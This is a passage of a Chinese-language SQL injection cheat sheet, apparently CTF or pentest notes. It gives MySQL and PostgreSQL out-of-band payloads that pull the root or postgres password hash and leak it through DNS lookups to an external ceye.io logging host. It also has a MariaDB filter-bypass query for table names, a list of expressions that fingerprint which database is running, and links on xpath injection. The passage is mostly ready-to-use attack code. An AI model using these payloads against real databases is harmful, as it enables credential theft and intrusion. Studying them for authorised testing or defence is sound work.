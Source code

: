 ### iii. MySQL

```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
#这个必须在windows系统下因为unc是windows所特有的
#具有load_file权限
```

### iv. PostgreSQL

```sql
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```



## xpath注入

 https://www.anquanke.com/post/id/155328 

 https://skysec.top/2018/07/30/ISITDTU-CTF-Web/#Access-Box 



## mariadb

### 过滤or的情况下查询表名

` select*/**/*group_concat(table_name)*/**/*from*/**/*mysql.innodb_table_stats `



## 判断是哪个dbms

```
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
```